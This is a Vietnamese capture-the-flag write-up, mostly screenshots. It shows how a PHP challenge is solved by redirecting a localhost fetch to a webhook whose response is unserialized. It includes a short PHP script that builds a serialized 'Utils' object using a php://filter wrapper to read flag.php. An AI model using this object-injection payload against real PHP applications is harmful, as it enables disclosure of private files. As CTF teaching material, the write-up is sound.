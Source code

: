 ![image](https://github.com/KMANVK/cookiehanhoan_ss2_ctf/assets/94669750/a0e6a584-ad60-4606-9e34-77119680e3f1)
![image](https://github.com/KMANVK/cookiehanhoan_ss2_ctf/assets/94669750/9a442439-1d23-4563-b8e9-34c753b01795)
![image](https://github.com/KMANVK/cookiehanhoan_ss2_ctf/assets/94669750/239361cd-6eb0-4b92-bb62-e012b01aebfc)
Nếu extract mà host là `localhost` thì code sẽ xử lý như sau
![](https://hackmd.io/_uploads/rktjZQYYn.png)

Lợi dụng để gọi đến `redirect` của `index.php`

![](https://hackmd.io/_uploads/BJSTZmFt2.png)

![](https://hackmd.io/_uploads/HJ89zQFYn.png)

![](https://hackmd.io/_uploads/SJo9fXKYn.png)

Untrusted data sẽ là response ta trả về, khi đó nó được unserialize
![](https://hackmd.io/_uploads/Byjpz7tK2.png)

Thêm vào đó object `Utils` khi `__wakeup` sẽ gọi `$this->_file`

![](https://hackmd.io/_uploads/BJWx77Yt2.png)

Script tạo serialize data:
```php
<?php 
class Utils {
    public $_file = "php://filter/convert.base64-encode/resource=flag.php";
};
echo(serialize(new Utils()));
?>
```
Thay kết quả của script vào response của webhook

![](https://hackmd.io/_uploads/HkuR4mYK3.png)

![](https://hackmd.io/_uploads/Sk3TNQYYn.png)

![](https://hackmd.io/_uploads/S1cJHXFKn.png)

